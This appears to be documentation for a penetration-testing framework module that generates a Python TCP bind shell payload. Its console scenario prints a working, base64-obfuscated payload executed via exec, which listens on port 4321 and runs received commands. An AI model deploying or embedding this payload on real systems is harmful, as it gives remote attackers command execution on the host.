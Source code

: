 ## Description

Module generates payload that creates interactive tcp bind shell by using python. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/python/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python tcp bind shell payload

## Scenarios

```
rsf > use payloads/python/bind_tcp
rsf (Python Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Python Bind TCP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJzAuMC4wLjAnLDQzMjEpKQpzby5saXN0ZW4oMSkKc28sYWRkcj1zby5hY2NlcHQoKQp4PUZhbHNlCndoaWxlIG5vdCB4OgoJZGF0YT1zby5yZWN2KDEwMjQpCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))
```
